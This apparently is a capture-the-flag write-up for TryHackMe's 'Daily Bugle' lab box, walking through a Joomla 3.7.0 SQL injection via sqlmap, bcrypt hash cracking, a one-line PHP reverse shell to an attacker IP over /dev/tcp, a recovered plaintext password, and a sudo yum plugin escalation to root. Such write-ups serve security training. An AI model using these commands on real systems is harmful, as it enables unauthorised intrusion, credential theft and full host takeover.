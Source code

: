 ```yaml
---
title: Writeup Daily Bugle (THM)
layout: post
author: hyprcub
tags: writeup
---
```

# TL;DR

This [Try Hack Me box](https://tryhackme.com/room/dailybugle) features mainly SQLi and hashes cracking. It goes as follow:
- exploit an [SQL injection vulnerability in Joomla 3.7.0](https://www.exploit-db.com/exploits/42033) to get a password hash
- crack it and use the credentials to log in the CMS
- inject a one-line PHP reverse shell in Joomla's default template code
- mine passwords to escalate to a regular user
- abuse `sudo` and `yum`to get full privileges.

# Enumeration

## Ports and Services

We start we the usual ports scanning:
```bash
export target=10.10.175.125
nmap $target -p- -A -oN tcp_ports.txt
sudo nmap $target -sU -oN udp_ports.txt
```
From the results:
```
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)
```
we learn a bunch of things. Mainly, that there is a [Joomla! CMS instance](https://www.joomla.org/) on **port 80/tcp**.

## Port 80/tcp

To get Joomla's version one can read the `README.txt` or use [OWASP Joomscan](https://github.com/OWASP/joomscan) :
```bash
curl $target/README.txt
```

```
1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.7 version history - https://docs.joomla.org/Joomla_3.7_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/master

[SNIP]
```
This is **Joomla 3.7**.

# Low Level Access

## SQLi
This particular Joomla version is subject to an [SQL injection vulnerability](https://www.exploit-db.com/exploits/42033). One can exploit it with [sqlmap](http://sqlmap.org/) to get a password hash:
```bash
sqlmap -u "http://$target/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump -C username,password
```
It gives:
![sqlmat output]({{ "/assets/img/daily-bugle-sqlmap.png"| absolute_url }})
For manual exploitation of this blind SQLi, see [hack3rman's considerations](https://github.com/hack3rman/TryHackMe/blob/master/Daily%20Bugle.md) and [his python script](https://github.com/hack3rman/TryHackMe/blob/master/Scripts/db-blind.py).

## Hash cracking

One can identify the hash using [haiti](https://noraj.github.io/haiti/#/):
```bash
echo $2y$[OBFUSCATED] > hash
haiti $(cat hash)
```
```
Blowfish(OpenBSD) [HC: 3200] [JtR: bcrypt]
Woltlab Burning Board 4.x
bcrypt [HC: 3200] [JtR: bcrypt]
```
**bcrypt** format  is confirmed by looking at [hashcat's wiki](https://hashcat.net/wiki/doku.php?id=example_hashes).

Then one crack it with [hashcat](https://hashcat.net):
```bash
export dict=/usr/share/wordlists/rockyou.txt
hashcat -m 3200 hash $dict
```
![Hashcat output]({{ "/assets/img/daily-bugle-hashcat.png" | absolute_url }})

## Shell

Now that we have credentials one can log in Joomla's administrator panel located at `http://$target/administrator/` and navigate to Joomla's defaut template to inject shell code into `/index.php`, namely:
```php
shell_exec("/bin/bash -i >& /dev/tcp/10.11.31.164/443 0>&1");
```
See below:
![shell code in a PHP file]({{ "/assets/img/daily-bugle-shell-code.png"| absolute_url }})

After having set up a netcat listener  and triggered the shell with `curl $target` one gets a command line as the user `www-data`:
![a shell as www-data]({{ "/assets/img/daily-bugle-shell.png" | absolute_url }})

Before proceeding to privilege escalation, let's enhance the shell:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
export PS1="(\u@\h) [\w]\$ "
alias ll="ls -al --color=auto" # yes, I like colors
```
see [ropnop's blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) for further details.

# Privilege Escalation

## Escalating to jjameson user

Doing the usual password mining, one can find the following lines in the file `/var/www/html/configuration.php`:
```php
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
```
which are the admin credentials for MySQL. The password is also good for the user `jjameson`:
![su as jjameson]({{ "/assets/img/daily-bugle-jjameson.png" | absolute_url }})

## Abusing sudo and yum

Checking `sudo -l`is one of the quickest win:
```
Matching Defaults entries for jjameson on dailybugle:
	!visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
	env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
	env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
	env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
	env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
	env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
	secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
	(ALL) NOPASSWD: /usr/bin/yum
```

According to [GTFOBins](https://gtfobins.github.io/gtfobins/yum/), `yum`can be abused to get full privileges:
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

![root shell]({{ "/assets/img/daily-bugle-root.png" | absolute_url }})

